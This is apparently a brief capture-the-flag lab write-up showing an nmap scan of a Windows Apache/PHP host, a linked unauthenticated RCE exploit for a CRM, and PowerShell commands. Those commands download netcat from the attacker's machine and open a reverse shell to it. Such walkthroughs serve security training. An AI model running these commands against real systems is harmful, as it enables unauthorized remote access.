 # nmap 
```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-17 23:17 CDT
Nmap scan report for 10.129.25.107
Host is up (0.25s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut

```

# The site uses a crm with an unauthenticated RCE [exploit](https://www.exploit-db.com/exploits/48506)
![[Pasted image 20241018124126.png]]

# Gained shell after running the exploit, then I download a netcat binary to have a stabilized shell

```powershell
powershell.exe -c "IWR http://10.10.14.84:8000/nc64.exe -OutFile nc.exe"

powershell -c "./nc.exe -e cmd.exe 10.10.14.84 4444" 

```

